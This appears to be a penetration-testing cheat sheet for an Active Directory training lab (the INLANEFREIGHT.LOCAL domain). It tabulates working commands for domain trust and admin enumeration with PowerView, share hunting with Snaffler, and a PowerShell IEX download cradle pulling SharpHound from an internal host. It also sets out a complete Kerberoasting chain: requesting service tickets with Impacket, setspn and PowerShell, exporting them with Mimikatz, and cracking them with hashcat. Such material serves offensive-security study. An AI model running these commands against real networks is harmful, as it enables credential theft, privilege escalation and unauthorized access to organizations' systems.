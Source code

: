| `Find-LocalAdminAccess` | PowerView script used to find machines on the local domain where the current user has local administrator access Performed from a Windows-based host. |
| `Get-DomainTrust` | PowerView script that returns domain trusts for the current domain or a specified domain. Performed from a Windows-based host. |
| `Get-ForestTrust` | PowerView script that returns all forest trusts for the current forest or a specified forest. Performed from a Windows-based host. |
| `Get-DomainForeignUser` | PowerView script that enumerates users who are in groups outside of the user's domain. Performed from a Windows-based host. |
| `Get-DomainForeignGroupMember` | PowerView script that enumerates groups with users outside of the group's domain and returns each foreign member. Performed from a Windows-based host. |
| `Get-DomainTrustMapping` | PowerView script that enumerates all trusts for current domain and any others seen. Performed from a Windows-based host. |
| `Get-DomainGroupMember -Identity "Domain Admins" -Recurse` | PowerView script used to list all the members of a target group ("Domain Admins") through the use of the recurse option (-Recurse). Performed from a Windows-based host. |
| `Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName` | PowerView script used to find users on the target Windows domain that have the Service Principal Name set. Performed from a Windows-based host. |
| `.\Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data` | Runs a tool called Snaffler against a target Windows domain that finds various kinds of data in shares that the compromised account has access to. Performed from a Windows-based host. |


### Transferring Files
| `sudo python3 -m http.server 8001` | Starts a python web server for quick hosting of files. Performed from a Linux-based host. |
| `"IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"` | PowerShell one-liner used to download a file from a web server. Performed from a Windows-based host. |
| `impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/` | Starts an impacket SMB server for quick hosting of a file. Performed from a Windows-based host. |



### Kerberoasting
| `sudo python3 -m pip install .` | Used to install Impacket from inside the directory that gets cloned to the attack host. Performed from a Linux-based host. |
| `GetUserSPNs.py -h` | Impacket tool used to display the options and functionality of GetUserSPNs.py from a Linux-based host. |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday` | Impacket tool used to get a list of SPNs on the target Windows domain from a Linux-based host. |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request` | Impacket tool used to download/request (-request) all TGS tickets for offline processing from a Linux-based host. |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev` | Impacket tool used to download/request (-request-user) a TGS ticket for a specific user account (sqldev) from a Linux-based host. |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev -outputfile sqldev_tgs` | Impacket tool used to download/request a TGS ticket for a specific user account and write the ticket to a file (-outputfile sqldev_tgs) linux-based host. |
| `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force` | Attempts to crack the Kerberos (-m 13100) ticket hash (sqldev_tgs) using hashcat and a wordlist (rockyou.txt) from a Linux-based host. |
| `setspn.exe -Q */*` | Used to enumerate SPNs in a target Windows domain from a Windows-based host. |
| `Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"` | PowerShell script used to download/request the TGS ticket of a specific user from a Windows-based host. |
| `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }` | Used to download/request all TGS tickets from a WIndows-based host. |
| `mimikatz # base64 /out:true` | Mimikatz command that ensures TGS tickets are extracted in base64 format from a Windows-based host. |
| `kerberos::list /export` | Mimikatz command used to extract the TGS tickets from a Windows-based host. |
| `echo "<base64 blob>" | tr -d \\n` | Used to prepare the base64 formatted TGS ticket for cracking from Linux-based host. |
| `cat encoded_file | base64 -d > sqldev.kirbi` | Used to output a file (encoded_file) into a .kirbi file in base64 (base64 -d > sqldev.kirbi) format from a Linux-based host. |
| `python2.7 kirbi2john.py sqldev.kirbi` | Used to extract the Kerberos ticket. This also creates a file called crack_file from a Linux-based host. |
| `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat` | Used to modify the crack_file for Hashcat from a Linux-based host. |
| `cat sqldev_tgs_hashcat` | Used to view the prepared hash from a Linux-based host. |
| `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt` | Used to crack the prepared Kerberos ticket hash (sqldev_tgs_hashcat) using a wordlist (rockyou.txt) from a Linux-based host. |
| `Import-Module .\PowerView.ps1 Get-DomainUser * -spn \| select samaccountname` | Uses PowerView tool to extract TGS Tickets. Performed from a Windows-based host. |
| `Get-DomainUser -Identity sqldev \| Get-DomainSPNTicket -Format Hashcat` | PowerView tool used to download/request the TGS ticket of a specific ticket and automatically format it for Hashcat from a Windows-based host. |